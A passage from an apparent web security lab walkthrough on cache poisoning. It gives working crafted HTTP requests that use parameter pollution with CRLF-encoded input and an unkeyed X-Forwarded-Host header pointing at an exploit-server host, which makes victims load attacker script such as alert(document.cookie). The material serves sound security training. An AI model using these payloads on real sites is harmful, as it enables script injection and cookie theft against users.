 
**Step 2: Poison the Login Page Redirect**
- Next, send:
  ```
  GET /login?lang=en?utm_content=x%26cors=1%26x=1$$origin=x%250d%250aContent-Length:%208%250d%250a%250d%250aalert(1)$$%23 HTTP/2
  ```
  - This **poisons the cache for the login page**, so that:
    1. The **redirected URL** includes the **polluted `lang` parameter** and successfully escape `cors=0` parameter by using `#` (`%23`)
    ```                  
    <script src='/js/localize.js?lang=en?utm_content=x&amp;cors=1&amp;x=1$$origin=x%0d%0aContent-Length: 8%0d%0a%0d%0aalert(1)$$#&cors=0'></script>
    ```
    2. The victim will load the poisoned `/js/localize.js` script.

---

**Step 3: Trigger Execution**
- When a victim visits `/login?lang=en`, they are redirected to the **cached poisoned version of the login page**.
- The login page **loads the cached, poisoned `/js/localize.js`**.
- The script executes **`alert(1)`**, solving the lab.

### LAB: Internal cache poisoning
Notice the `X-Forwarded-Host` header is supported. Add a cache buster to ensure we get fresh responses and can interact directly with the internal cache. Send this request: 

    GET / HTTP/2
    X-Forwarded-Host: exploit-0a2e006104fb490f8211a5c9018a00cc.exploit-server.net/exploit#

Notice the canonical URL and `analytics.js` script update immediately in the response. But the `geolocate.js` script takes several attempts before updating. This indicates that the internal cache stores page fragments separately, and `geolocate.js` is cached differently.
Once `geolocate.js` is cached with the attacker's domain, removing `X-Forwarded-Host` from the request still reflects the poisoned URL for `geolocate.j`s, but not for other URLs. This proves that `X-Forwarded-Host` is unkeyed by the internal cache, meaning we can inject a malicious script reference into the internally cached fragment.
On the exploit server, add this to the body:

    alert(document.cookie);

Resend the request: 

    GET / HTTP/2
    X-Forwarded-Host: exploit-0a2e006104fb490f8211a5c9018a00cc.exploit-server.net/exploit#

Keep sending this until all three dynamic URLs in the response (canonical URL, analytics.js, and geolocate.js) point to the exploit server. When a victim visits the home page, their browser loads the cached `geolocate.js` script from the attacker’s server.

